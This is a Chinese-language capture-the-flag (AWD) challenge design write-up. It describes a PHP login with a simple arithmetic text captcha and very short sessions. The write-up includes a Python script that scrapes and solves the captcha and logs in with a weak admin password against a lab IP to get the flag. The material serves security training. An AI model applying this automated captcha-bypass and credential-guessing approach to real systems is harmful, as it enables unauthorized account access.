




[TOC]

# 攻防题 - 出题思路

## 学习要点

+ python自动化脚本编写

+ 页面内容获取、正则表达式提取关键内容
+ 带简单文本验证码的自动登录、密码暴力破解
+ 自动提交表单获取flag

## 设计思路

+ PHP生成简单的文本形式的验证码
+ PHP session过期时间极短
+ 无法使用burp等自动发包
+ 可以手工攻击，但面对AWD攻防比赛环境，需要编制脚本自动进行批量攻击

## 操作步骤

访问URL可见登录框。



需要通过文本形式的验证码校验。

弱口令登录后可获得flag。



会话过期时间极短，只有几秒钟。



而且在AWD中，这种登录攻击是批量进行的。所以登录必须通过脚本自动化完成。


编写自动登录脚本。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import re
import requests

URL = "http://10.0.0.10/facebook/index.php"

session = requests.session()
r = session.get(URL)
html = r.text

a = re.findall(r"\d+\s*\+\s*\d+\s*\=\s*\?", html, re.M)
assert len(a) > 0
a = a[0]
b = re.findall(r"\d+", a)
assert len(b) == 2
c = int(b[0]) + int(b[1])

r = session.post(URL, dict(
    username="admin",
    password="12345678",
    validcode=str(c),
    submit="submit",
))
print(r.text)

```




## 总结

训练选手编写自动化攻击脚本的能力。

